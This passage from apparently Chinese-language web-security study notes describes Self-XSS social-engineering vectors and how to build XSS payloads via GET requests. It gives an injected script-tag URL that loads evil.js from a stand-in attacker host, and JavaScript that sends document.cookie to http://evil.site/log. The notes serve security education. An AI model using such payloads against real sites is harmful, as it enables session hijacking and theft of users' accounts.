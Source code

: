 <img src="../../.vuepress/public/images/image-20240817180219156.png" alt="image-20240817180219156" style="zoom:50%;" />

### Self-XSS

> 利用社会工程学欺骗用户输入恶意代码

1. 地址栏输入JavaScript伪协议
2. 开发者工具控制台输入
3. 页面文本框输入

## XSS Payload

### 构造GET、POST请求

#### GET

1. 将脚本代码写入文件，通过\<script\>标签载入

   ```
   http://localhost:8080/echo.php?name=<script src="http://evil.site/evil.js"></script>
   ```

   evil.js内容

   ```js
   # 获取Cookie
   var img = new Image();
   img.src = 'http://evil.site/log?cookie='+encodeURIComponent(document.cookie);
   ```
